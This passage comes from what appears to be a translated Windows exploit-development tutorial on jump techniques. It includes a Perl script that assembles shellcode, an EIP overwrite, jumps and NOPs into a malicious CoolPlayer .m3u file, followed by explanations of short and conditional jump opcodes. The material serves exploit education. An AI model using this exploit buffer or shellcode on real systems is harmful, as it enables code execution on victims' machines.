    "\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
    "\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
    "\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
    "\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
    "\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
    "\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
    "\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
    "\x9a\xca\xc0";
     
    my $sploit = $junk.$jmp1.$eip.$garbage1.$jmp2.$garbage2.$nops.$shell; # build sploit portion of buffer
    my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer for size consistency
    my $buffer = $sploit.$fill; # build final buffer
     
    # write the exploit buffer to file
    my $file = "coolplayer.m3u";
    open(FILE, "&gt;$file");
    print FILE $buffer;
    close(FILE);
    print "Exploit file [" . $file . "] created\n";
    print "Buffer size: " . length($buffer) . "\n";

尽管这里没有真正的实际目的，但我将通过用“ \ x90 \ x90 \ x90 \ x90 \ x90 \ x90 \ x90 \ xeb \ xea ” 替换$ jmp2来表现向后的短跳跃，以表示向后跳跃的有效长度20（技术上来说22是通过跳过本身来丢失2个字节）。这样做应该使我们的INT指令返回20个字节。



有用。对于这个特定的漏洞，再次没有真正的实际目的，但是这些例子应该说明在发现自己处于漏洞需求的情况下短跳转的可能性。条件跳转只是在某些条件满足时采取的近/短跳转，取决于相应标志的状态（请回顾第1部分的EFLAGS寄存器）。例如，如果零标志被设置为1，则采取“如果等于跳转”（JE）或“如果跳转为零”（JZ）则跳转。相反，“跳转如果不相等”（JNE）或“跳转如果不是零“如果零标志被设置为0，则采用（JNZ）。该语法类似于常规短跳转，只是使用不同的操作码。JNE的操作码是75，所以向前跳20个字节的指令是\ x75 \ x14。我不会给出另一个条件跳转的演示，因为这个概念与之前的短跳转例子完全相同。请记住，因为您可能面临无法使用无条件标准短跳转的情况，因此您必须转向条件跳转。尽管它涵盖了我在这个漏洞利用开发系列中尚未涉及的主题，但如果您想要一个真实的例子说明为什么在构建漏洞利用时您可能需要使用条件跳转，请查看[此页面](http://www.thegreycorner.com/2010/02/windows-buffer-overflow-tutorial.html)。下面是可用的条件跳转及其相应的操作码和状态标志的一个很好的参考：http : //www.unixwiz.net/techtips/x86-jumps.html。

## 结论

我希望Windows漏洞利用系列文章中的这一部分清楚地说明了使用各种跳转技术访问shellcode的一些方法，包括操纵寄存器和堆栈的内容以及使用无条件跳转或条件跳转。请记住，这不是一个详尽的可能性列表，您可能会发现在构建漏洞利用时使用这些跳跃技术的各种组合。在第5部分中，我们将介绍另一种查找称为Egghunting的shellcode的技术。

